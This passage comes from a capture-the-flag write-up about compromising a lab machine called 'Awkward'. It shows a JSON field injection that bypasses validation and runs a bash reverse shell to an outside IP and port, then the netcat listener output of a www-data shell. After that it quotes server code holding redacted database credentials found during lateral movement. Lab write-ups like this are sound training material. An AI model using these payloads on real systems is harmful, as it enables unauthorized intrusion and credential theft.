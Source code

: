This worked. And even better, the array allowed me to bypass the validation.

```json
{
  "reason":[
    "reason$"
  ],
  "start":"13/01/2023",
  "end":"13/01/2023"
}
```

I tried using this to execute code and get a reverse shell.

```json
{
  "reason":[
    "`bash -c 'bash -i >& /dev/tcp/10.10.14.3/4444 0>&1'`"
  ],
  "start":"13/01/2023",
  "end":"13/01/2023"
  }
```

I got a hit on my netcat listener. And I was on the server.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.11.185] 51432
bash: cannot set terminal process group (1969): Inappropriate ioctl for device
bash: no job control in this shell

www-data@awkward:~/hat-valley.htb$ whoami
whoami
www-data
```

## Lateral Movement 

I looked around the server. I could not run `sudo` as www-data and I did not find any `suid` binary. 

The server.js code of the main application contained some credentials.

```js
const connection = mysql.createConnection({
  host: 'localhost',
  user: 'root',
  password: 'REDACTED',
  database: 'hatvalley',
  stringifyObjects: true
})
const port = 3002

const TOKEN_SECRET = "REDACTED"
```
